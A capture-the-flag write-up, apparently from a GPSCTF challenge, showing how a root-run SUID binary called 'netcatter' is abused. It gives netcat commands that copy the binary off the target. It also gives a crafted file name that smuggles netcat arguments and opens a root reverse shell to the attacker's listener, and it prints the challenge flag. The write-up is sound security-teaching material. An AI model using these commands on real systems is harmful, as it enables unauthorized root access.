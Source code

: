 We are shown an ip, port and credentials so we can SSH.

![image](https://user-images.githubusercontent.com/80063008/137870810-f9844233-9de0-4a4d-aa8c-94731b8a1608.png)


Inside, doing some manual enumeration, we can find in /opt/netcatter, a SUID binary called netcatter.

![image](https://user-images.githubusercontent.com/80063008/137870818-80b154aa-2467-4d7c-be8d-ee5dcb239088.png)


Transferred the binary to my machine using netcat.

On target machine:
```bash
nc 10.10.0.23 9001 < netcatter
```
On my machine:
```bash
nc -lvnp 9001 > netcatter
```
Ghidra shows the binary running /bin/nc.traditional

![image](https://user-images.githubusercontent.com/80063008/137870830-107433e0-e6b0-4655-aee6-ac4097950143.png)


Checking running processes, we can see netcatter being used to run something from the files folder in which we can write stuff. And it is running it every 60 seconds as root.

![image](https://user-images.githubusercontent.com/80063008/137870896-79202880-2e70-443b-b89b-0600e9b1b6e4.png)


I'm not great at decompilingg code but I think that while we have less then 5 arguments, it will replace the : with a space.

![image](https://user-images.githubusercontent.com/80063008/137870913-903c27c0-7005-4cd0-9855-cd3af5ce2cd0.png)


We need to create files in the files folder that would be taken as arguments by netcatter.

We create the file as seen below in order to make it run a reverse shell:

```bash
touch "10.10.0.23:9001:-c:sh"
```
On our machine we put put a listener on that port:
```bash
nc -lvnp 9001
```
And within a minute we'll catch the shell as seen in the picture below.

![image](https://user-images.githubusercontent.com/80063008/137870960-34f824ea-1ecf-4ba2-ba53-33168d60162f.png)


GPSCTF{c7f14d9a12b871c56869fb0e5932fe1a}
